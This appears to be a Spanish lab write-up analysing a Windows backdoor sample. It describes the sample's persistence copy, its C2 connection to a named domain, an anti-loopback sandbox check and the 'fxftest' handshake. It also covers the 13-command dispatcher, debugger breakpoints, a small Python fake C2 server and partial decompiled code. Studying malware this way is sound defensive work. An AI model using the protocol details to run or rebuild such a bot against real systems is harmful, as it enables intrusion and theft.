








### 1. Inicialización del entorno y recopilación de información

- Instalación de un manejador de excepciones estructurado (SEH).
- Llamadas a GetModuleFileNameA, GetSystemDirectoryA y GetUserNameA para obtener:
    - Ruta del ejecutable actual.
    - Ruta del sistema (C:\Windows\System32).
    - Nombre de usuario.
- Construcción de rutas tipo:
    - C:\DOCUME~1\<usuario>\java.exe
    - Posible intento de autocopiarse en esta ruta (persistencia).

- Además, llama a CopyFileA y a FUN_004012a0("sysinfo"), lo que sugiere:
    - Que el binario intenta autocopiado en una carpeta del sistema.
    - Que inicializa una estructura de configuración con ese nombre (posiblemente archivo o mutex).

### 2. Comunicación por red / conexión C2: Esta parte establece una comunicación de red basada en WinSock:
- Usa funciones como:
    - Ordinal_52 → gethostbyname
    - Ordinal_23 → socket
    - Ordinal_9 → htons
    - Ordinal_4 → connect
    - Ordinal_19 → send
    - Ordinal_16 → recv

- Se conecta a un dominio que contiene la cadena "fxftest" (esto aparece en .rdata como s_fxftest_0040a120).

- Intercambia datos con el servidor:
    - Espera una cadena de 7 bytes, la compara con algo.
    - Si coincide, continúa con la ejecución.
    - Aquí es donde se activa la lógica condicional del malware: solo ejecuta el siguiente paso si el servidor envía la cadena esperada.


### 3. Despacho de comandos remotos (switch). Una vez conectado, el malware espera un byte y salta a un switch-case (dispatcher):
```
switch (comando) {
  case 1: FUN_004018c0
  case 2: FUN_00401a20
  case 3: FUN_00402050
  ...
  case 13: FUN_004028c0
}
```
- [FUN_004018c0](FUN_004018C0.md)
- [FUN_00401a20](FUN_00401A20.md)
- [FUN_00402050](FUN_00402050.md)
- [FUN_004028C0](FUN_004028C0.md)

Cada función parece representar un comando recibido del servidor, lo que indica que el malware actúa como un bot que:
- Espera instrucciones del atacante.
- Ejecuta funciones dependiendo de lo que reciba (ej: exfiltración, ejecución, escritura en disco…).


### 4. Limpieza o persistencia. Después de ejecutar las acciones, puede:
- Copiar strings y buffers internamente.
- Actualizar variables de estado (DAT_0040a0c0).
- Usar funciones que parecen manejar hilos, nombres de archivo y estructuras en memoria.


___________________
# La conexión se pierde
Realizando un análisis dinámico, se consigue que la a VM windows de la muestra se conecte con la MV remux. Pero la conexion se pierde. Analizamos en detalle lo que hace esta función para ver los motivos de esa pérdida.

## 1) Prolog/SEH, limpieza de buffers y recolección de paths (00401310–0040148B)

- Prepara SEH y zerea buffers grandes (local_37c, local_22c…).
- Construye rutas:
    - GetModuleFileNameA → path del propio binario.
    - GetSystemDirectoryA y GetUserNameA → compone algo como: C:\DOCUME~1\<Usuario>\java.exe

- Si el path destino (local_22c) es distinto del origen (local_37c) → CopyFileA(src, dst, FALSE) y llama a [FUN_004012a0](FUN_004012a0.md)("sysinfo", dst) (se gestiona la persistencia/registro de “sysinfo”).
    (Esto no afecta a la conexión, pero explica el drop en %DOCUME~1%\...\java.exe.)

## 2) Resolución DNS con “anti-loopback” (0040151B–00401593)


- Primer motivo típico de “se conecta y se corta”.
    - Ordinal_52(hostname) → devuelve hostent*. Traducción: gethostbyname(hostname) (1 parámetro).
- Agarra la primera IP: [hostent->h_addr_list][0] y llama Ordinal_12(ip) → Traducción: inet_ntoa(struct in_addr) → cadena con la IP.
  ```
  00401554  mov esi, dword ptr [DAT_0040A128]  ; -> "127.0.0.1"
  00401559  mov dl, byte ptr [eax]
  0040155d  cmp dl, byte ptr [esi]             ; ← primera comparación
  ```

- Compara esa cadena con DAT_0040a128, que en nuestro dump se ve como "127.0.0.1" (los comentarios muestran = "7.0.0.1", pero el primer byte es 31h = '1').

  DAT_0040A128 es un literal Unicode (UTF-16 LE) con el valor real "127.0.0.1".  
  En bytes se ve así: 31 00 32 00 37 00 2E 00 30 00 2E 00 30 00 2E 00 31 00.  
  

  Para verlo de una forma más secilla para nosotros: Nos situamos en 0040A128. Hacemos Clic derecho → Data → Byte  
  

  Para verlo de una forma más secilla para nosotro: Nos situamos en 0040A128. Hacemos Clic derecho → Data → Create TermitateCString  
  
  

- Si SON IGUALES → Sleep(30000) y reintenta. Es decir, mientras el hostname resuelva a 127.0.0.1, el cliente no avanza.  
  El bucle de comparación del binario lee dos bytes por iteración ([eax] y luego [eax+1]) y después avanza de 2 en 2 (add eax,2; add esi,2). Eso funciona tanto si la cadena es UTF-16LE (dos bytes por carácter) como si es ASCII (compara de dos en dos caracteres); por eso el patrón del código puede confundir.

**✔️ Conclusión 1:** si en la MV de Windows el nombre del C2 está mapeado a 127.0.0.1 (hosts/FakeNet/etc.), el cliente se quedará en bucles de 30 s y parecerá “que se corta”.

### Breakpoint en este punto para x32dbg:
```
bp lab_03-2.malware+0x1554
```
x32dbg resuelve lab_03-2.malware al base actual del módulo. Así no neceitamos calcular el offset con el que se carga en memoria.

Si queremos hacerlo a mano:  
- Cuando el binario se carga en nuestro Windows, el base address real del módulo cambia (ASLR / reubicación), así que en x32dbg la instrucción vive en: ```base_en_memoria + RVA```.
- Base en memoria del módulo: En x32dbg: Alt+M (Memory Map) → buscamos lab_03-2.malware → copiamos la columna Base (ej. 0x00400000).
- Ponemos el BP usando base+RVA: En la barra de comandos:
  ```
  bp 00400000+0x1554
  ```


**Qué hace este bloque:**
- Llama a gethostbyname("us.t28.net") → toma la primera dirección.
- Llama a inet_ntoa (Ordinal_12) → devuelve char* con el IP en ASCII (en tu captura es "10.0.0.3").
- Carga ESI = DAT_0040A128 → dirección de la cadena "127.0.0.1".
- Compara byte a byte *EAX (IP resuelto) con *ESI ("127.0.0.1").  
  Si son iguales → duerme 30 s (push 7530; call Sleep).  
  Si NO son iguales → sigue con la conexión.
- Si no es igual (tu nuestro: “10.0.0.3” ≠ “127.0.0.1”), ponen EAX = -1 y el JNZ de 00401582 salta a 00401593, con lo que continúa la ejecución normal.

**En esa captura lo que se está comparando es:**
- EAX → apunta a la cadena devuelta por inet_ntoa, que en tu screenshot es "10.0.0.3".
- ESI → apunta a DAT_0040A128, que es la cadena constante "127.0.0.1".

**La comprobación anti-loopback (evitar 127.0.0.1 / ::1) se usa para:**
- Evadir sinkholes sencillos: muchos analistas, sandboxes y productos de seguridad redirigen dominios maliciosos a 127.0.0.1 o 0.0.0.0 vía hosts o DNS. Si el malware detecta loopback, no conecta.
- Detectar entornos de análisis: varias sandboxes corporativas resuelven todo a loopback para contener tráfico.
- Higiene/robustez: previene que, por error de resolución DNS, el malware puede acabar hablándose a sí mismo y se “autobloquee”.

**Qué pasa a partir de ahí:**
- 00401593: comprueba EDI (resultado de gethostbyname).
- 004015A3: socket(AF_INET, SOCK_STREAM, 0) (Ordinal_23).
- Rellena sockaddr_in:  
  ```
  sin_family=2, sin_port desde DAT_0040AA98 (htons), sin_addr con la IP resuelta.
  ```
- connect (Ordinal_4).
- Si falla: cierra y reintenta; si conecta: entra al bucle de protocolo (handshake “fxftest”, recv opcode, etc.).

## 3) Conexión TCP (004015A3–0040162E)

- Ordinal_23(AF_INET, SOCK_STREAM, IPPROTO_TCP) → socket().
- AX = DAT_0040aa98 (puerto en host order) → Ordinal_9(AX) → htons().
- Ordinal_11(EBX) siendo EBX = "a.b.c.d" → inet_addr(); guarda en DAT_0040aa74.
- Ordinal_4(s, &sockaddr_in, 16) → connect().
    - Si falla: Ordinal_3(s) → closesocket(), Sleep(30000) y reintenta.

**✔️ Conclusión 2:** conecta a inet_addr(host) y htons(port). Si nuestro servicio no está escuchando allí, vermos SYN/RESET y vuelta al bucle.
_______________________________



**Qué hace el bloque:**
- Construye una sockaddr_in
  _DAT_0040aa70 = 2;  
  → sin_family = AF_INET.

- _DAT_0040aa72 = Ordinal_9(_DAT_0040aa98);  
  → sin_port = htons(PORT).  
  Ordinal_9 = htons.  
  _DAT_0040aa98 almacena el puerto (en este lab es 443 → 0x01BB).  

- _DAT_0040aa74 = Ordinal_11(pbVar5);  
  → sin_addr.s_addr = inet_addr(ip_str).  
  Ordinal_11 = inet_addr.  
  pbVar5 apunta a la cadena con la IP del C2 (resuelta antes desde us.t28.net con gethostbyname o similar).

- Intenta conectar con el C2:
    - iVar3 = Ordinal_4(_DAT_0040aa80, &_DAT_0040aa70, 0x10);  
      Ordinal_4 = connect.  
      _DAT_0040aa80 es el SOCKET que creó antes con socket().  

    - if (iVar3 == -1) { Ordinal_3(_DAT_0040aa80); Sleep(30000); local_8 = 0xffffffff; }  
      → Si connect falla: cierra el socket (Ordinal_3 = closesocket), duerme 30 s y marca error para reintentar.

**Mapa de ordinals usados:**
- Ordinal_23 → socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) (se hizo antes).
- Ordinal_9 → htons.
- Ordinal_11 → inet_addr.
- Ordinal_4 → connect.
- Ordinal_3 → closesocket.
- Ordinal_19 → send (handshake “fxftest”).
- Ordinal_16 → recv (respuesta/opcode).


## 4) Handshake obligatorio “fxftest” (0040162E–004016A4)




**1) Handshake “fxftest”:**
- Prepara el literal "fxftest" en local_24 y calcula su longitud incluyendo el \0 (lo hace con ese truco de uVar7 = 0xffffffff → ~uVar7 - 1 = strlen+1).
- send(sock, "fxftest\0", 8, 0) → Ordinal_19(DAT_0040aa80, local_24, ~uVar7 - 1, 0).
- recv(sock, buf, 8, 0) → Ordinal_16(DAT_0040aa80, local_1c, 8, 0).
- strncmp(buf, "fxftest", 7) → si coincide, entra en el bucle de órdenes; si no, corta.

👉 Conclusión: el servidor C2 debe devolver exactamente 8 bytes 66 78 66 74 65 73 74 00 (“fxftest\0”) tras recibir el “hello” o el cliente no continúa.  
**✔️ Conclusión 3 (frecuentísima):** si el servidor no responde inmediatamente con los primeros 7 bytes = “fxftest”, el cliente lo considera handshake inválido y corta.


## 5) Bucle de mando/dispatcher (004016A4–0040182E)
- Dentro del while (true):
```
if (DAT_0040a0c0 != 0 || recv(sock, &local_12c, 0x104, 0) < 1) break;
switch (local_12c) {
  case 1:  FUN_004018C0(sock);                     // opcode 1
  case 2:  FUN_00401A20(sock, local_128);
  case 3:  FUN_00402050(sock, local_128);
  case 4:  FUN_004020A0(sock, local_128);
  case 5:  FUN_004020F0(sock);
  case 6:  FUN_00402210(sock, local_128);
  case 7:  FUN_00402310(sock);
  case 8:  FUN_00402440(local_128, sock, (byte*)local_128);
  case 9:  FUN_00402490(sock, iVar3, pcVar10, uVar14);
  case 0xA:FUN_00402660(sock);
  case 0xB:FUN_00402620(sock);
  case 0xC:FUN_00402880(sock);
  case 0xD:FUN_004028C0(sock, local_128);
}

```
- DAT_0040aa80 es el descriptor de socket (devuelto por socket() – Ordinal_23 – y conectado con connect() – Ordinal_4).
- El malware lee exactamente 0x104 bytes por orden y usa el primer DWORD (little-endian) de ese buffer como opcode (local_12c).
- Si recv falla o la bandera global DAT_0040a0c0 es no-cero, sale del bucle y cierra el socket (Ordinal_3, closesocket).

- Lee opcode = *(DWORD*)local_12c y hace switch(opcode-1) con 13 casos:
    - FUN_004018c0(s) --> [FUN_004018C0](FUN_004018C0.md) --> Realiza una enumeración de unidades lógicas (discos) del sistema y recopila información sobre ellas.

    - FUN_00401a20(s, &local_128) --> [FUN_00401A20](FUN_00401A20.md) --> Procesar una cadena, aplicar una decodificación XOR, y luego intentar acceder al sistema de archivos usando FindFirstFileA.

    - FUN_00402050(s, &local_128) --> [FUN_00402050](FUN_00402050.md) --> Ejecuta un binario XOR codificado, y reporta el resultado al servidor C2.

    - FUN_004020a0(s, &local_128) --> [FUN_004020A0](FUN_004020A0.md) --> Elimina un archivo remoto y reportar el resultado al C2.

    - FUN_004020f0(s) --> [FUN_004020F0](FUN_004020F0.md): Recibe datos por red y los guarda como archivo.

    - FUN_00402210(s, &local_128) --> [FUN_00402210](FUN_00402210.md) --> Recibe una cadena XOR 0x55, la descifra y luego la pasa como nombre de archivo a CreateFileA.

    - FUN_00402310(s) --> [FUN_00402310](FUN_00402310.md) --> Captura una snapshot de los procesos.Itera sobre cada proceso. Lo desofusca y lo envía por socket.

    - FUN_00402440(s, &local_128) --> [FUN_00402440](FUN_00402440.md) --> Terminar un proceso dado por ID. Notifica al servidor C2  si tuvo éxito o no.

    - FUN_00402490(s) --> [FUN_00402490](FUN_00402490.md) --> Ejecuta un proceso, captura su salida estándar, la descifra con XOR 0x55, y la envía al servidor C2.

    - FUN_00402660(s, &local_128) --> [FUN_00402660](FUN_00402660.md) --> Recibe comandos en texto (ofuscados con XOR 0x55), los desofusca y los interpreta. 

    - FUN_00402620(s) --> [FUN_00402620](FUN_00402620.md) --> Cierra todos los handle usados. Envía un byte 0x71 ('q') a través del socket, probablemente indicando "terminar sesión".

    - FUN_00402880(s) --> [FUN_00402880](FUN_00402880.md): Recibe datos de un socket (probablemente un comando remoto), usando funciones de WS2_32.DLL (recv).

    - FUN_004028c0(s, &local_128) --> [FUN_004028C0](FUN_004028C0.md) : Toma como entrada una dirección a una cadena (char*) y Lo convierte en un número (signed int) y lo pasa a Sleep.

- Cualquier opcode fuera de 1..13 salta al default que limpia un buffer y vuelve a recibir, o cae a error y sale.



DAT_0040aa80 referido en el opcode2 que se pasa como parámetro a la [FUN_004018C0](FUN_004018C0.md) es un handle de socket (SOCKET) que el malware crea localmente:
- WS2_32::Ordinal_23 → socket(AF_INET, SOCK_STREAM, IPPROTO_TCP)
- mov [DAT_0040aa80], eax (guarda el handle)
- Se usa con:
    - WS2_32::Ordinal_4 → connect(handle, sockaddr, …)
    - WS2_32::Ordinal_19 → send(handle, …)
    - WS2_32::Ordinal_16 → recv(handle, …)
    - WS2_32::Ordinal_3 → closesocket(handle)


Los datos que legarán del servidor C2 se leen con recv a buffers (por ejemplo el local_12c en el desensamblado.


**✔️ Conclusión 4: tras el “fxftest”, el servidor debe mandar al menos 4 bytes (DWORD, little‑endian) con un opcode 1..13; si no, recv <= 0 o opcode inválido → cierre.**

## 6) Lo que necesitamos para probar el opcode 1 (listar directorio)
- Conforme a lo anterior, para disparar FUN_004018C0:
    - Recibe del bot "fxftest\0"
    - Devuélvele "fxftest\0" (8 bytes)
    -Enviale un frame de 0x104 bytes donde:
        - Bytes 0–3: 01 00 00 00 (opcode 1, little-endian)
        - El resto (padding) puede ir a cero o un relleno inofensivo.

El bot entonces ejecuta FUN_004018C0(sock) que usa FindFirstFile/FindNextFile para enumerar entradas y responderá con uno o varios send() con los nombres/atributos.

## 7) Dónde parar en x32dbg para verlo claro
- Breakpoint en strncmp del handshake: lab_03-2.malware:00401690 (la llamada que sale en tu diagrama). Ahí verás:
    - 1er arg → puntero al buffer recibido (debería contener "fxftest\0")
    - 2º arg → "fxftest" local
    - 3er arg → 7
- Breakpoint en ws2_32.recv para el frame de órdenes: cuando vuelva de ese recv con 0x104, mira en la pila/[esp+??] o en local_12c y confirma que los primeros 4 bytes son 01 00 00 00.
- Breakpoint en FUN_004018C0 (entrada de la case 1) para seguir la enumeración de ficheros (llamadas a FindFirstFileA/FindNextFileA) y los send.



- EIP = 00401690 (lab_03-2). Está a punto de ejecutar strncmp.
- A la derecha vemos ecx:"fxftest" y edx:"fxftest" → el malware va a comparar el buffer recibido con la cadena "fxftest".
- Acaba de hacer:
    - send(sock,"fxftest\0",8,0)
    - recv(sock, buf, 8, 0)
    - call _strncmp(buf,"fxftest",7) ← ¡ahí estás!

**Paso a paso para confirmar la comparación y pasar al bucle de órdenes:**
- F8 (Step over) sobre call _strncmp.
    - Si EAX==0 al volver, la comparación es igual.
- Vamos las dos siguientes instrucciones:
    - test eax,eax
    - jz 004016A4
    Debe tomarse el salto (ZF=1). Eso confirma handshake OK.
- A partir de 004016A4 el malware:
    - lee un bloque de “sysinfo” (verás un recv(sock, ..., 0x200, 0)), te lo envía (send) y…
    - entra al bucle de órdenes: hace recv(sock, &local_12c, **0x104**, 0) y hace switch(local_12c).


Esa captura es justo después del recv del frame de 0x104. Hay que destacar que EAX = 0x00000104 → el bot ha leído 260 bytes del C2 (nuestro comando). Ahora toca comprobar que el opcode es 1 y dejar que salte al listado.

**Confirmamos qué recibió:**
- En la izquierda estamos en:
```
call  ws2_32.recv
...
mov ecx, dword ptr ss:[ebp-128]   ; puntero al buffer recibido
```
- Pulsamos F8 hasta ejecutar ese mov.

- ECX quedará con la dirección del buffer.

- Follow in Dump → ECX y mira los primeros bytes. Deben ser:
```
01 00 00 00  00 00 00 00  00 00 00 00 ...  (total 0x104 bytes)
```
Si el primer DWORD no es 01 00 00 00, el switch no irá al opcode 1.




Esa captura es justo después de un recv grande y justo antes del salto del switch que elige el opcode! Desde ahí podeos ver y forzar que entre al opcode 1 (listado) así:
- EAX = 0x00000100 → el recv devolvió 256 bytes (otro frame grande; en esta muestra hay varios recv).
- Inmediatamente después vienen:
  ```
  mov ecx, dword ptr ss:[ebp-128]   ; puntero al buffer recibido
  ...
  jmp dword ptr [eax*4 + 401884]    ; tabla de saltos del switch(opcode)
  ```
- El opcode que decide el switch se guarda en la variable local (veremos movimientos con [ebp-124] / local_12c).


## 8) Mecanismo de cierre (Catch) (00401833–)
- Si algo falla:
    - Catch@00401833 hace closesocket(s) y retorna. Por eso vemos “se conectó y luego se perdió”.
 
## Por qué “se pierde” la conexión (resumen operativo)
- DNS loopback: si tu hostname del C2 resuelve a 127.0.0.1, el cliente duerme 30 s y reintenta sin conectar (bloque 2).
- Handshake inválido: una vez conecta, espera que tu servidor responda inmediatamente con una cadena cuya cabecera sea "fxftest" (al menos 7 bytes iniciales iguales). Si no, aborta (bloque 4).
- Falta de opcode: después del eco "fxftest", espera un DWORD (little‑endian) con 1..13. Si no llega o llega 0 bytes, corta (bloque 5).

## Cómo mantener la conexión viva
### 1. Devolver a la MV Windows:
- Primero: fxftest (7 bytes; puedes enviar 8, el 8º lo ignora en strncmp).
- Luego: 4 bytes de opcode, p. ej. \x01\x00\x00\x00 (opcode 1). Vamos a enviar el opcode que manda a la [FUN_004018C0](FUN_004018C0.md).
- Opcional: cualquier payload que esperen esos handlers.

**Servidor mínimo en Python:**
```
import socket, struct

HOST, PORT = "0.0.0.0", <puerto>
with socket.socket() as s:
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    s.bind((HOST, PORT))
    s.listen(1)
    conn, addr = s.accept()
    with conn:
        # 1) Recibir el "fxftest" del cliente (opcional leer, no hace falta validarlo aquí)
        conn.recv(16)  # el cliente envía "fxftest"
        # 2) Responder handshake correcto:
        conn.sendall(b"fxftest\x00")  # 8 bytes; los primeros 7 deben ser 'fxftest'
        # 3) Enviar opcode válido (p. ej., 1)
        conn.sendall(struct.pack("<I", 1))
        # 4) Si el handler espera más datos, envíalos aquí…
        # Mantener la conexión abierta:
        while True:
            data = conn.recv(1024)
            if not data:
                break

```

### 2. Evitar el “anti-127.0.0.1”
- Nos asegurmos que el hostname configurado en DAT_0040ACA8 NO resuelva a 127.0.0.1.
    - Usamos una IP privada real: el hostname de la VM remux que resuelva a esa IP.
    - Si usamos hosts, no ponemos a 127.0.0.1.
    - O cambiamos DAT_0040a128 en memoria a otra cadena para saltarte la comparación.


# Mapeo de ordinals que aparecen aquí
| Ordinal WS2_32 |	Función (probable) |	Evidencia de uso |
| -- | -- | -- |
| 52 | gethostbyname(char*) | 1 arg (hostname) → hostent*, usa +0x0C (h_addr_list)
| 12 | inet_ntoa(struct in_addr) | 1 arg (addr) → compara cadena IP
| 23 | socket | 3 args (AF, type, proto)
| 9 | htons | 1 arg (port)
| 11 | inet_addr | 1 arg (ip string)
| 4 | connect | 3 args (s, sockaddr*, len)
| 3 | closesocket | 1 arg (s)
| 19 | send | 4 args (s, buf, len, flags)
| 16 | recv | 4 args (s, buf, len, flags)


# Puntos de breakpoint útiles (para “ver” el problema)
- Antes del handshake: BP en Ordinal_16 (recv). Vermos que está esperando 8 bytes; si nuestro servidor no envía “fxftest…”, se irá por la rama de error.
- Después del handshake: BP en Ordinal_16 de 0x016EB (el de 0x104 bytes). Si vuelve <=0, el servidor cerró o no envió opcode ⇒ caída.
- Comparación 127.0.0.1: en 00401559–00401584. Mira ESI (puntero a "127.0.0.1") y la cadena en EAX que viene de inet_ntoa.

________________________________________________
```

/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */
undefined4 FUN_004012f0(void)
{
  char cVar1;
  byte bVar2;
  int iVar3;
  byte *pbVar4;
  byte *pbVar5;
  int iVar6;
  uint uVar7;
  uint uVar8;
  byte *pbVar9;
  char *pcVar10;
  char *pcVar11;
  undefined4 *puVar12;
  bool bVar13;
  undefined4 uVar14;
  char local_57c [256];
  char local_47c [256];
  byte local_37c;
  undefined4 local_37b;
  CHAR local_27c [80];
  byte local_22c;
  undefined4 local_22b;
  undefined4 local_12c;
  CHAR local_128 [256];
  DWORD local_28;
  char local_24 [4];
  char local_20 [4];
  char local_1c [8];
  undefined1 *local_14;
  void *local_10;
  undefined1 *puStack_c;
  undefined4 local_8;
  
  local_8 = 0xffffffff;
  puStack_c = &LAB_004081b0;
  local_10 = ExceptionList;
  local_14 = &stack0xfffffa74;
  ExceptionList = &local_10;
  iVar3 = FUN_00401020();
  if (iVar3 == 0) {
    ExceptionList = local_10;
    return 0;
  }
  local_37c = 0;
  puVar12 = &local_37b;
  for (iVar3 = 0x3f; iVar3 != 0; iVar3 = iVar3 + -1) {
    *puVar12 = 0;
    puVar12 = puVar12 + 1;
  }
  *(undefined2 *)puVar12 = 0;
  *(undefined1 *)((int)puVar12 + 2) = 0;
  local_22c = 0;
  puVar12 = &local_22b;
  for (iVar3 = 0x3f; iVar3 != 0; iVar3 = iVar3 + -1) {
    *puVar12 = 0;
    puVar12 = puVar12 + 1;
  }
  *(undefined2 *)puVar12 = 0;
